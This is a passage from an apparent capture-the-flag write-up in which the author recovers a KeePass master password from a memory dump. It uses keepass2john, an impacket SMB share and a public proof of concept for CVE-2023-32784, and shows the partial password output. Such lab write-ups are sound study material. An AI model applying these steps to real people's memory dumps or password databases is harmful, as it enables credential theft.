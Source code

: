 I am able to extract the hash of this file using `keepass2john`, however attempts to crack this hash are unsuccessful. 

I decide to check what the current version of Keepass is, maybe if this database format is old, there will be a public exploit for it. Doing some research, I find that the current version is 4.X. I search for *"keepass kdbx 2.x exploit"* and find [this github repo](https://github.com/vdohney/keepass-password-dumper/tree/main) for [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784). It states that *"In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump"*, seeing as we have that `.dmp` file, this looks promising.

The github PoC is written for Windows, I attempt to get it working in my Linux VM, but give up and fire up my Windows VM.

Before switching over to Windows, I start an SMB share on Linux so I can easily transfer over any files I need.
```bash
impacket-smbserver -smb2support -username <USERNAME> -password <PASSWORD> kali $(pwd)
```
Once on Windows, I download the github repo. I then install the .NET SDK as recommended. I then connect to my SMB share by right-clicking in file explorer and hitting *"Add a network location"*, and entering my Linux IP address, share name, and credentials. I copy over the `.dmp` file and the `.kdbx` file for good measure. I then run the PoC. I get an error however that I don't have the proper .NET runtime installed, and handy link to go grab it. So I do, and rerun the PoC, this time it works!
```powershell
C:\Users\Clayton\Desktop\workdir\keepass-password-dumper-main\keepass-password-dumper-main > dotnet run KeePassDumpFull.dmp
<...SNIP...>
App: C:\Users\Clayton\Desktop\workdir\keepass-password-dumper-main\keepass-password-dumper-main\bin\Debug\net7.0\keepass_password_dumper.exe
Architecture: x64
Framework: 'Microsoft.NETCore.App', version '7.0.0' (x64)
.NET location: C:\Program Files\dotnet

The following frameworks were found:
  6.0.21 at [C:\Program Files\dotnet\shared\Microsoft.NETCore.App]
  8.0.0 at [C:\Program Files\dotnet\shared\Microsoft.NETCore.App]

Learn more:
https://aka.ms/dotnet/app-launch-failed

To install missing framework, download:
https://aka.ms/dotnet-core-applaunch?framework=Microsoft.NETCore.App&framework_version=7.0.0&arch=x64&rid=win-x64&os=win10
```
The exploit successfully puts together most of the password. It can't find the first character, and it's narrowed down the second character.
```
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
```